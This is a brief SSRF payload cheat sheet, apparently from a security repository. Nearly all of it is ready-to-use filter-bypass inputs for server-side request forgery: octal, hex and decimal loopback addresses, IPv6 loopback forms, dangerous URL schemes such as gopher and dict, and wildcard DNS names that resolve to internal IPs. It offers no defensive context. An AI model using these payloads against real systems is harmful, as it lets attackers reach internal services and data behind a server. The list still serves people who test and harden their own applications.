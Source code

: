 ## SSRF

```
http://0177.1/
```

```
http://0x7f.1/
```

```
https://520968996
```

_Note:_ The latter can be calculated using http://www.subnetmask.info/

**Exotic Handlers**

```
gopher://, dict://, php://, jar://, tftp://
```

**IPv6**

```
http://[::1]
```

```
http://[::]
```

**Wildcard DNS**

```
10.0.0.1.xip.io
www.10.0.0.1.xip.io
mysite.10.0.0.1.xip.io
foo.bar.10.0.0.1.xip.io
```
_Link:_ xip.io

```
10.0.0.1.nip.io maps
app.10.0.0.1.nip.io
customer1.app.10.0.0.1.nip.io
customer2.app.10.0.0.1.nip.io
otherapp.10.0.0.1.nip.io
```

_Link:_ nip.io

